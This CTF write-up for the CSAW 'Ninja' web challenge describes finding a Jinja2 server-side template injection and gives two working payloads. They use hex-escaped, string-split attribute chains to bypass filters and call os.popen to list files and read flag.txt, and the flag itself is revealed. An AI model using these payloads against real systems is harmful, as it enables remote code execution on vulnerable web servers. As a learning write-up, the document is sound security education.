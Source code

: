 #### Challenge:

Hey guys come checkout this website i made to test my ninja-coding skills.

[http://web.chal.csaw.io:5000](http://web.chal.csaw.io:5000)

---

#### Solution:

We are given a website that with one text input and a button. We tried some javascript / CSS / SQL injection stufs but that was not it. Finally we realized that Ninja points to `Jinja`. After a bit of googlig we found this nice site about `Server Side template injection` using [jinja2](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti).

Fidling with it, we were able to run the `ls` command:

```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('ls')|attr('read')()}}
```

And `cat` the `flag.txt`:

```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('cat flag.txt')|attr('read')()}}
```

---

<details><summary>FLAG:</summary>

```
flag{m0mmy_s33_1m_4_r34l_n1nj4}
```

</details>
<br/>
